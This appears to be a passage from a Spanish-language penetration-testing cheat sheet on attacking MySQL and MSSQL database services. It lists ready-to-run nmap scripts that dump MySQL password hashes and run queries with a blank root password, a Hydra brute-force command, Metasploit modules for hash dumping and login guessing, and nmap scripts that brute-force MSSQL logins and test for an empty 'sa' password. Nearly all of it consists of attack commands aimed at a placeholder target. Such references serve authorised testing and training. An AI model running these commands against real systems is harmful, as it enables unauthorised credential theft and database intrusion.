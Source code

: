 Dump hashes

```bash
$ nmap --script=mysql-dump-hashes --script-args="username='root',password=''" -p 3306 <IP-TARGET>
```

```bash
$ nmap <IP-TARGET> -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" -vvv
```

Ejecuta una consulta

```bash
$ nmap <IP-TARGET> -p 3306 --script=mysql-query --script-args="query='select * from books.authors;',username='root',password=''" -vvv
```

#### Hydra

```bash
$ hydra -l root -P /usr/share/metasploit-framework/data/wordlist/unix_passwords.txt <IP-TARGET> mysql
```

#### Metasploit

Modulos utiles de metasploit para este servicio:

- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_writable_dirs
- auxiliary/scanner/mysql/mysql_file_enum
- auxiliary/scanner/mysql/mysql_login
- auxiliary/scanner/mysql/mysql_hashdump

### MSSQL

Puerto por defecto (1433)

#### Nmap

```bash
$ nmap --script ms-sql-info -p 1433 <IP-TARGET>
```

Comprobar autenticación NTLM

```bash
$ nmap --script ms-sql-ntlm-info --script-args mssql.instance-port 1433 <IP-TARGET>
```

Enumerar usuarios y contraseña validos para MSSQL

```bash
$ nmap -p 1433 --script ms-sql-brute -script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt <IP-TARGET>
```

Comprobar si el usuario "sa" tiene configurada la contraseña como vacia

```bash
$ nmap -p 1433 --script ms-sql-empty-password <IP-TARGET>
```
